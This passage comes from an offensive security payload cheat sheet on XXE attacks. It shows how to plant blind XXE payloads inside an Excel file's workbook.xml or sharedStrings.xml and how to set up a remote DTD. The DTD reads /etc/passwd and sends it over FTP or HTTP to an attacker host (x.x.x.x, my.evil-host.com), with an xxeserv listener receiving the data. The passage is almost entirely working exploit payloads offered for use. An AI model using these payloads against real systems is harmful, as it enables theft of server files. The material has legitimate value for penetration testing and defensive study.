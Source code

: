 Extract Excel file: `7z x -oXXE xxe.xlsx`

Rebuild Excel file:

```
$ cd XXE
$ 7z u ../xxe.xlsx *
```

Add your blind XXE payload inside `xl/workbook.xml`.

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE cdl [<!ELEMENT cdl ANY ><!ENTITY % asd SYSTEM "http://x.x.x.x:8000/xxe.dtd">%asd;%c;]>
<cdl>&rrr;</cdl>
<workbook xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships">
```

Alternativly, add your payload in `xl/sharedStrings.xml`:

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE cdl [<!ELEMENT t ANY ><!ENTITY % asd SYSTEM "http://x.x.x.x:8000/xxe.dtd">%asd;%c;]>
<sst xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" count="10" uniqueCount="10"><si><t>&rrr;</t></si><si><t>testA2</t></si><si><t>testA3</t></si><si><t>testA4</t></si><si><t>testA5</t></si><si><t>testB1</t></si><si><t>testB2</t></si><si><t>testB3</t></si><si><t>testB4</t></si><si><t>testB5</t></si></sst>
```

Using a remote DTD will save us the time to rebuild a document each time we want to retrieve a different file.
Instead we build the document once and then change the DTD.
And using FTP instead of HTTP allows to retrieve much larger files.

`xxe.dtd`

```xml
<!ENTITY % d SYSTEM "file:///etc/passwd">
<!ENTITY % c "<!ENTITY rrr SYSTEM 'ftp://x.x.x.x:2121/%d;'>"> 
```

Serve DTD and receive FTP payload using [xxeserv](https://github.com/staaldraad/xxeserv):

```
$ xxeserv -o files.log -p 2121 -w -wd public -wp 8000
```

### XXE inside DTD file

Most XXE payloads detailed above require control over both the DTD or `DOCTYPE` block as well as the `xml` file.
In rare situations, you may only control the DTD file and won't be able to modify the `xml` file. For example, a MITM.
When all you control is the DTD file, and you do not control the `xml` file, XXE may still be possible with this payload.

```xml
<!-- Load the contents of a sensitive file into a variable -->
<!ENTITY % payload SYSTEM "file:///etc/passwd">
<!-- Use that variable to construct an HTTP get request with the file contents in the URL -->
<!ENTITY % param1 '<!ENTITY &#37; external SYSTEM "http://my.evil-host.com/x=%payload;">'>
%param1;
%external;
```

